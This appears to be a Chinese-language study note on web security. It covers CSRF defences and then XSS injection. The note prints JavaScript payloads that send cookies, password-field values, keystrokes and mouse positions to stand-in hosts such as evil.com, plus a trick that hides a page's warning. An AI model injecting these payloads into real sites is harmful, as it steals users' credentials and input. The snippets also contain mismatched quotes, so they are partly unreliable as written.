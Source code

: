 ##### 增加验证码
##### One-Time Tokens(不同的表单包含一个不同的伪随机值通常与用户身份有关不好猜测, 注意并行性兼容)

### XSS
`Cross-site scripting`, 中文名称: `跨站脚本分析`
#### 注入方式
##### javascript 注入
###### 常用js代码注入
```javascript
src="javascript:alert(‘xss’)；"
```
**js注入成功, 利用`location.href`注入拿到cookies或密码**
对于浏览器可以设置`httpOnly`来降低从用户端拿到`cookies`进行攻击的可能性
```javascript
location.href='http://www.xss.com?cookie=’+document.cookie'；
```
**js注入成功,从文本字段中窃取密码**
```javascript
function stealpw(){  
  var pw = document.getElementById("password").value;  
  document.images[0].src="http://evil.com/imgs/stealpw?pw=" + pw;  
}  
document.getElementById("button").onclick = stealpw; 
```

**js注入成功, 键盘记录工具（key logger）窃取键盘事件**
```javascript
function keylogger(e){  
  document.images[0].src = "http://evil.com/logger?key="  
  + e.keyCode;  
};  
document.body.addEventListener("keyup", keylogger, false);
```

**使用鼠标嗅探器窃取键盘事件**
```javascript
function sniffer(e){  
  document.images[0].src= "http://evil.com/imgs/sniffer?x="  
  + e.clientX + "&y=" + e.clientY;  
};  
document.body.addEventListener("mouseup", sniffer, false);  
```

**js注入成功, 插入错误信息**
```javascript
// 警告消息
...  
<style type="text/css"> #warning { color: red } </style>  
...  
<div id="warning">The links in this page may refer to   
potentially malicious Web pages, so be careful. </div>  
...  
// 消除警告
var e = document.getElementById("warning");  
e.style.color= "white";  
```

